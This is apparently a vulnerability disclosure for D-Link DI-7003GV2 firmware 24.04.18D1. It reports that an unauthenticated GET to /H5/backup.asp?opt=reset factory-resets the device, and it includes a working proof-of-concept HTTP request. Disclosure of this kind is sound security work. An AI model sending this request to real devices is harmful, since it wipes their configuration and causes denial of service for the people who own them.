





# Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an authentication bypass vulnerability in the `/H5/backup.asp` interface. Remote attackers can trigger a factory reset of the device by sending a crafted HTTP request with `opt=reset` without authentication. Exploitation results in the immediate loss of device configuration and service interruption, potentially leading to denial of service or unauthorized control reset.

# Vulnerability details

The `H5/backup.asp` interface is processed by the `sub_4983B0` function.

  

`sub_4983B0` function: The opt parameter has three options: backup, recover, and reset, where reset can reset the system configuration to the factory settings state.

  


# POC

After sending the request, no response information from the device is received, but in fact, the device has already entered the factory reset process.

```http
GET /H5/backup.asp?opt=reset HTTP/1.1
Host: 192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

  

The device cannot be accessed.

  

After waiting for the factory settings restoration to complete, the device's IP address will revert to the default 192.168.0.1, and accessing this address will display the initial setup process of the device.

  
